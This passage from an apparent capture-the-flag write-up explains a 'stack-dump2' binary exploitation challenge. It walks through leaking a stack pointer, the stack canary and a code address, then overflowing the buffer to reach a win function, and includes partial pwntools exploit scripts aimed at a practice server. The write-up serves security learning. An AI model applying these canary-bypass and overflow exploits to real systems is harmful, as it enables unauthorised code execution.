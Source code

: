 ```

p.readline()
p.sendline(fread)
p.readline()

canary = p.readn(8)

retPad = b'A' * 16

p.readuntil('[')
buffer = int(p.readuntil(']', drop=True), 16)
ret = p32(buffer)
p.sendline(payload + padding + canary + retPad + ret)


p.interactive()
```

## Stack-dump2

---

FLAG{REDACTED}

---

_stack-dump + aslr? ez_

Thought this one would be harder. Building on the stack-dump from week 2, this time all I had to do extra was leak some addresses.

Although fgets is used, we specify the length, rendering it completely useless.

1. Grab the pointer on the stack, it's just one byte from the start of the buffer, so that's great.
2. Dump the canary by reading memory from the start of the canary, which is `0x69` bytes from the useful pointer.
3. On reading the canary, the next step is finding where the `win` function is. We do that by leaking another address on the stack, this time from the code section. (Just in case the offsets for the code part and the stack are different)
4. Use the code pointer to find the address of the `win` function
5. Find the padding before and after the canary and overflow, to jump to the win function.
6. `cat flag`

```
#!/usr/bin/python3

from pwn import *

#p = process('./stack-dump2')
p = remote('plsdonthaq.me', 5002)

p.readuntil('useful stack pointer ')
stackPointer = int(p.readuntil('\n', drop=True), 16)


p.sendline('a')
p.readuntil(': ')
p.sendline('5')
p.sendline(p32(stackPointer + 0x69))
p.sendline('b')


p.readuntil(': ')
canary = p.readn(4)

p.readuntil('quit')
```